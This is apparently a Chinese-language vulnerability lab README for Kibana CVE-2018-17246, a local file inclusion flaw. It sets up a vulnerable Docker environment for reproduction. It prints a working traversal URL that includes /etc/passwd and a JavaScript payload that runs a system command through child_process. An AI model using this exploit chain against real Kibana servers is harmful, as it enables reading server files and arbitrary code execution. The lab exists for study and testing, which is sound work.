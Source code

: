 # Kibana Local File Inclusion (CVE-2018-17246)

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:5106`即可看到Kibana的默认首页。

## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker compose logs`即可发现，`/etc/passwd`已经成功被包含：

![](1.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

```js
// docker compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

成功包含并返回命令执行结果：

![](2.png)
